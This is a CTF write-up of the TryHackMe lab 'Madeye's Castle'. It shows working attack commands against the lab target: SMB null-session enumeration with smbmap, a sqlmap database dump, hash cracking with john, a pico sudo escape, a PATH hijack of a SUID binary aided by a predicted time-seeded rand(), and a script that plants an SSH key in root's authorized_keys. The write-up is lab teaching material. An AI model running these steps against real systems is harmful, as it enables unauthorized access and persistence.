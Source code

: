 ```yaml
---
layout: post
title:  "TryHackMe - Madeye Castle"
date:   2021-02-26 06:49:00 +0100
categories: [ctf, writeups, tryhackme]
---
```


Link to the ctf: [Madeye's Castle](https://tryhackme.com/room/madeyescastle)

# Web Server
By visiting the webpage, we see that the default apache page is changed.

![](/assets/Clipboard_2021-02-19-09-14-44.png)

by checking the source code, we get an hint.

![](/assets/Clipboard_2021-02-19-09-14-01.png)

Updating the `/etc/hosts` file we get another webpage that greetes us.

![](/assets/Clipboard_2021-02-19-09-15-53.png)

## SMB Share

nmap tells us that there's a Samba service on.
![](/assets/Clipboard_2021-02-19-09-18-10.png)

I'm gonna use [enum4linux-ng](https://github.com/cddmp/enum4linux-ng).

The following interesting things that the output it gives us are the following:

![](/assets/Clipboard_2021-02-19-09-22-04.png)
There is a Null Session vulnerability. This allows us to "login" without entering a password.

I then used `smbmap` to enumerate it further.
```bash
smbmap -H 10.10.197.154 -u '' -p '' 
```
![](/assets/Clipboard_2021-02-19-09-25-29.png)

`sambashare` is accessible. The following command is to recursively search for stuff inside a share.
```bash
smbmap -H 10.10.197.154 -u '' -p '' -R sambashare
```

![](/assets/Clipboard_2021-02-19-09-27-10.png)

To download the files, we just use the `--download` argument
```bash
smbmap -H 10.10.197.154 -u '' -p '' --download sambashare\\.notes.txt
smbmap -H 10.10.197.154 -u '' -p '' --download sambashare\\spellnames.txt
```

`notes.txt` contains the following:
```
Hagrid told me that spells names are not good since they will not "rock you"
Hermonine loves historical text editors along with reading old books.
```

and `spellnames.txt` it apper to be a wordlist. 



## SQL Injection
I intercepted the login request and passed it to sqlmap
I'm using the following sqlmap version: `1.5.2#pip`
> Fun fact: I had issue with sqlmap. Try to update it or change some arguments.
```bash
sqlmap -r request --level 5 --risk 3 --random-agent -T users --dump
```

![](/assets/Clipboard_2021-02-19-09-04-47.png)

I decided to crack this hash since it gives me more detail about it
"My linux username is my first name, and password uses best64"
so harry is the username, `best64` is a rule. I use john to crack the hash.

```bash
john --rules=best64 -w=./spellnames.txt --format=Raw-SHA512 hash.txt
```

![](/assets/Clipboard_2021-02-19-09-34-59.png)

We can use the credentials to log in via ssh.



## Horizontal Privilege Escalation
By checking `harry` privileges, we see that we can execute `pico` as `hermonine`
![](/assets/Clipboard_2021-02-19-09-36-41.png)
By using [Pico privesc techninques](https://gtfobins.github.io/gtfobins/pico/) we can spawn a shell as `hermonine`.

And then I put my ssh-key in `/home/hermonine/.ssh/authorized_keys` so I can have a better shell.

## Vertical privilege escalation
Got stuck here, thinking that I should do something that only hermonine could do.

I checked for SUID files

![](/assets/Clipboard_2021-02-19-09-51-22.png)

I used the `strings` command 

![](/assets/Clipboard_2021-02-19-09-52-00.png)

and I feel like this binary executes `uname -p` without specifying the full path for it. 
We can exploit it by just changing the enviroment path where Linux checks for binaries.

![](/assets/Clipboard_2021-02-19-09-54-31.png)

By runnin these commands, we tell linux to check first in our current directory for the linux command that it has to execute.
Then I create a bash script called `uname`
```bash
#!/bin/bash
echo "HIJACKED";
whoami; id;
```
and make it executable
```bash
chmod +x uname
```

but first we have to guess the number.
We can actually bypass it since it uses the current time as seed.
```c
#include <stdio.h>
#include <time.h>

int main(){
	srand(time(0));
	printf("%d", rand());
	return 0;
}
```
and compile it

```bash
gcc rand.c
```

![](/assets/Clipboard_2021-02-19-10-03-35.png)

okay, so we can confirm that we can execute commands as root.
The easiest way to get root would be to change `/bin/bash`'s suid.
Or we can write our key to `/root/.ssh/authorided_keys`.

I'm treating this as a penetration test, so I'd like to not mess things around more than I should, so I'll write my ssh key being careful to **append** it to the file.

```bash
#!/bin/bash
echo "HIJACKED";
mkdir /root/.ssh; chmod 600 /root/.ssh;
echo -e '\necdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFHMnWdBAAvTFNf4U01x9NjPFAbGWj4f/LyeCZPmHQdp/PH/u71OShS7wZREW9WzV73/TGxuwXYnaU1RJL/5wJc= lmao' >> /root/.ssh/authorized_keys
cat /root/.ssh/authorized_keys
```

Now we can login as root via ssh.

```bash
ssh -i sshkey root@10.10.197.154
```

![](/assets/Clipboard_2021-02-19-10-11-16.png)


